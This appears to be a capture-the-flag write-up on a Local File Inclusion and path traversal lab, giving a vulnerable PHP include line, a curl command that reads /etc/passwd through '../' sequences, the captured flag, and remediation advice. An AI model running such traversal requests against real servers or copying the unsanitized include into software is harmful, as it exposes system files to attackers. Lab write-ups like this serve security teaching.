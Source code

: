 ## Flag

Vulnerability exploited: Local File Inclusion (LFI) and Path Traversal

```php
<?php include($_GET['page']); ?>
```

Flag Found in the page source when including `/etc/passwd`:

```bash
curl -s "http://localhost:8080/index.php?page=../../../../../../../etc/passwd" \
  | sed -n '1,60p' \
  | grep -oP '(?s)<script.*?>.*?</script>' || echo "no inline <script> found"
# <script>alert('Congratulaton!! The flag is : b12c4b2cb8094750ae121a676269aa9e2872d07c06e429d25a63196ec1c8c1d0 ');</script>
# <script src="js/html5shiv.js"></script>
# <script src="js/jquery.min.js"></script>
# <script src="js/skel.min.js"></script>
# <script src="js/skel-layers.min.js"></script>
# <script src="js/init.js"></script>
```

## Explanation

Local File Inclusion (LFI) is a web vulnerability that allows an attacker to include files on a server through the web browser. This is often due to improper handling of user input in file inclusion functions.
Path Traversal allows an attacker to access files and directories that are stored outside the web root folder. By manipulating variables that reference files with `../` sequences, an attacker can traverse the file system to access sensitive files.

## Remediation

To prevent LFI vulnerabilities, it is crucial to validate and sanitize user inputs rigorously. Here are some best practices:

1. **Input Validation**: Only allow specific, expected values for file paths. Use a whitelist approach where only predefined file names or paths are accepted.

- Allow listing of valid pages only:

  ```php
  <?php
  $allowed_pages = ['home', 'about', 'contact'];
  $page = $_GET['page'] ?? 'home'; // Default to 'home' if not set

  if (in_array($page, $allowed_pages)) {
      include($page . '.php');
  } else {
      // Handle invalid page request
      echo "Invalid page.";
  }
  ?>
  ```

2. **Sanitization**: Remove or encode special characters that could be used for directory traversal (e.g., `../`, `..\\`, `%2e%2e%2f`).
3. **Disable Unnecessary Functions**: If possible, disable functions that are not needed, such as `include`, `require`, etc.
4. **Error Handling**: Avoid displaying detailed error messages to users, as they can provide clues about the file structure of the server.
5. **Regular Security Audits**: Regularly review and test your code for vulnerabilities.
